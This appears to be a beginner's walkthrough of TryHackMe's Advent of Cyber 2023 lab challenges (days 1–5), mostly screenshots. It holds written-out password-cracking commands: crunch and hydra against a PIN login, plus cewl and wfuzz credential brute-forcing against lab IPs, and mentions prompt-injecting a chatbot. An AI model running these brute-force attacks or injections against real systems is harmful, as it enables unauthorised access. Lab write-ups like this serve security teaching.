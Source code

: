 # [Advent of Cyber 5 [2023]](https://tryhackme.com/room/adventofcyber2023)

> Get started with Cyber Security in 24 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 1: Chatbot, tell me, if you're really safe?

use some tricky question to inject the prompt

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/22a1a05a-dba6-46af-bd35-240f9a448b0c)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eb2fb2a0-9b35-4047-ba20-2b4f07e19faf)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8a64872c-36cd-4aef-9be4-a58119889650)

## Day 2: O Data, All Ye Faithful

start the machine, you will see a browser of jupiter notebook and the instruction on that

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e9940e00-769a-4e55-a072-0d21f92a4efc)

click on notebook `4_Capstone` we have a datasheet network_traffic.csv and a workbook, open it

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3e3d2fd4-d920-4a3e-b060-65d69e04a5b2)

question 2

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bc62e3e1-af24-46cc-896f-74bd11cd6758)

question 3

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ee1a1853-6439-4389-88c2-33d1d6cf00d4)

question 4

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c8c15eae-a62c-4e7e-9e8e-d10719f680b2)

if you got error 'df' not found, so click on "restart the kernel and run all cells"

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/dfff452a-234b-4fd8-9758-07c90951ef46)

## Day 3: Hydra is Coming to Town

start the machine and access it on port 8000

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/17e6c66d-fe82-4005-8a46-26364f2d4ae7)

view source code, i see it post the pin to login.php or you can catch the request with burpsuite

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eda3942b-76ce-44ce-b0b6-bc1cbdfae732)

generate the wordlist

```
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

crack the pass with hydra

```
hydra -l '' -P 3digits.txt -f 10.10.125.189 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a9fcf49c-e97b-44a0-966c-12cb80f6ba6b)

enter the pin

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1dffafc4-68b0-47bc-ac3a-b7653f281989)

here you go

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/07b31e88-e14b-4709-b689-7eab2adc7417)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f77ccd4b-f02f-4711-873b-95e79c952e06)

## Day 4: Baby, it's CeWLd outside

check the webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e6794c64-bd0d-4dc2-b29c-560ab0f1d4c7)

use the homepage to generate a wordlist that could potentially hold the key to the portal

```
cewl -d 2 -m 5 -w passwords.txt http://10.10.84.220 --with-numbers
```

use the Team Members page to generate a wordlist that could potentially contain the usernames of the employees

```
cewl -d 0 -m 5 -w usernames.txt http://10.10.84.220/team.php --lowercase
```

bruteforce the login portal using wfuzz

```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.84.220/login.php -d "username=FUZZ&password=FUZ2Z"
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c94d347f-4630-4812-9f0c-96510ba00dea)

log in to the portal using that credential

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/38b4ddc3-a587-4a85-83f0-b6d4272b948b)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ed53c118-900c-4232-8bce-d5a34359bebc)

## Day 5: A Christmas DOScovery: Tapes of Yule-tide Past

start the machine, open the DosBox-X on the Desktop

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/53e63402-c9ee-4e22-b105-4bd30e37112e)

list the directory

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5d69a474-53ec-4114-b553-70e09efa57e7)

navigate to backup tools folder to inspect the backup file

```
cd C:\TOOLS\BACKUP
BUMASTER.EXE C:\AC2023.BAK
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eead6f3f-10cb-4afd-a3c1-174659f50d06)

check the troubleshoot at readme.txt

```
edit README.TXT
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4f6939fd-745f-4c89-bbcb-59e6bee919c1)

Alt+F and navigate to Exit to exit the editor

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5380b283-d24f-4641-960d-227a1a38356a)

edit the magic byte on the backup file

```
edit C:\AC2023.BAK
```

according previous troubleshoot, the magic bytes must be 41 43. these are hexadecimal values, so we need to convert them to ASCII first

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cdd8f019-9373-4bb3-86c7-10d10a28db18)

change first 2 magic bytes to `AC` and Alt+F to Save the file

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/47518a90-2ed9-42ba-90e4-a019a4e8569a)

restore the backup again

```
BUMASTER.EXE C:\AC2023.BAK
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4affd6b0-02e6-4451-a988-8a636168f5c5)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0a9e1f14-0964-40d9-a67f-bd1ed643a751)

## Day 6: Memories of Christmas Past




























